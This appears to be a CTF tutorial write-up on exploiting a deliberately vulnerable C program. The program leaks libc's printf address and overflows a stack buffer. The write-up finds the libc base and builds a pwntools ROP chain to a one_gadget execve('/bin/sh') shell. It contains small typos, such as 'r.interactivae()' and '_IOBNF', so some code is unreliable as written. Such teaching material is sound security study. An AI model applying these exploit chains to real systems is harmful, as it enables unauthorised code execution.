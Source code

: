 ```yaml
---
title: Simple PWN - 0x08(one_gadget with ROP)
tags: [CTF, PWN, eductf]

---
```


# Simple PWN - 0x08(one_gadget with ROP)
###### tags: `CTF` `PWN` `eductf`

## one_gadget background
[Day25: [Misc] 我從來沒想過我會害怕寫 code](https://ithelp.ithome.com.tw/articles/10226977)
> 原理是在 `glibc` 裡面有很多會透過 `execve` 執行 `/bin/sh`、再調用外部系統指令的 assembly，當 explolit 已經得知 `libc` 的位之後而且可以控制 RIP 之後，就可以直接跳該位置達成 shell out，不需要再辛苦堆 stack 上的參數

## Original Code
```cpp!=
#include <stdio.h>
#include <unistd.h>

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IOBNF, 0);

    char s[0x10];

    printf("Your libc: %p", printf);
    read(0, s, 0x100);

    return 0;
}
```
* The program has buffer overflow, however it has no backdoor method can access and has no global variable can write shellcode. Thus, we can consider to use `ROP` to get shell.
* Note that, it must be a dynamic library, so DO NOT use `-static` to compile it.
    ```bash!
    gcc -o one_gadget_with_rop one_gadget_with_rop.c -no-pie -fno-stack-protector -z norelro -zexecstack
    ```

## Exploit
* First, we use [<font color="FF0000">`ldd`</font>](https://shengyu7697.github.io/linux-ldd/) command to find what library the program will use.
    ![](https://imgur.com/ycRb8Tv.png)
* In addition, we use `one_gadget` command to find `execvs`
    * Note that, how to use it can refer to [one_gadget用法](https://blog.csdn.net/weixin_43092232/article/details/105085880)
    * We use `0xebcf8 execve("/bin/sh", rsi, rdx)` as our method
    ![](https://imgur.com/Y7BBH5J.png)
        * <font color="FF0000">Note:</font> it has 3 constraint so that we can get the shell
        ```bash!
        address rbp-0x78 is writable
        [rsi] == NULL || rsi == NULL
        [rdx] == NULL || rdx == NULL
        ```
* Then, we use `one_gadget` command to get `ROP` chain
    ```bash!
    ROPgadget --binary one_gadget_with_rop --only "pop|ret" > one_gadget
    vim one_gadget
    ```
    You can see that because we didn't compile with library, the gadget that we may can use is very few.
    ![](https://imgur.com/DuGINHL.png)
    The solution is using the gadget that `libc` have:
    ```bash!
    $ ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" > one_gadget
    $ vim one_gadget
    ```
    We must satisfied one_gadget constraint. `0x90529` and `0x2be51` are the offset of `/lib/x86_64-linux-gnu/libc.so.6`. Therefore, if we want to call these gadget, <font color="FF0000">we must find out the real base address of `/lib/x86_64-linux-gnu/libc.so.6`</font>.
    ![](https://imgur.com/3h5PqcO.png)
    ![](https://imgur.com/Z2bBbhJ.png)
* Because, `ASLR` is turn on in default, so the address of library will be random, we just know the offset of library. In original code, it told us the `printf` address in `/lib/x86_64-linux-gnu/libc.so.6` → <font color="FF0000">`0x7ffff7def770`</font>
    ![](https://imgur.com/nuYGx24.png)
    Used `gdb` can find the current address of library → <font color="FF0000">`0x7ffff7d8f000`</font>
    ![](https://imgur.com/Et3r2hI.png)
    Then we can know the offset and construct apart of payload as below 
    $$0x7ffff7def770 - 0x7ffff7d8f000 = 0x60770$$
    ```python!=
    from pwn import *
    import sys

    context.arch = 'amd64'

    r = process('./one_gadget_with_rop')

    r.recvuntil("Your libc: ")
    libc = int(r.recv(14), 16) - 0x60770
    info(f"libc: {hex(libc)}")
    ```
* And prepare our gadget:
    ```python!=11
    pop_rdx_rbx_ret = libc + 0x90529
    pop_rsi_ret = libc + 0x2be51
    ```
* Construct whole payload with considering the constraint:
    ```python!=13
    r.send(b'a'*0x10 + p64(0x404000) + p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0) + p64(libc+0xebcf8))
    r.interactivae()
    ```
    * `b'a'*0x10` is for `$rsi`
    * `p64(0x404000)` is an arbitrary writable and readable address for `$rbp-0x78` one of the constraint of one_gadget
    * `p64(pop_rdx_rbx_ret) + p64(0)*2 + p64(pop_rsi_ret) + p64(0)` is what we did in [last lecture](https://hackmd.io/@UHzVfhAITliOM3mFSo6mfA/rki3GF0cs) of `ROP`
    * `p64(libc+0xebcf8)` is the one_gadget that we choose at the beginning.
* Finally, we got shell!!!
    ![](https://imgur.com/iIETaBy.png)


## Reference
[Linux ldd 查看執行檔執行時需要哪些 library](https://shengyu7697.github.io/linux-ldd/)
[Pwn week1](https://youtu.be/ktoVQB99Gj4)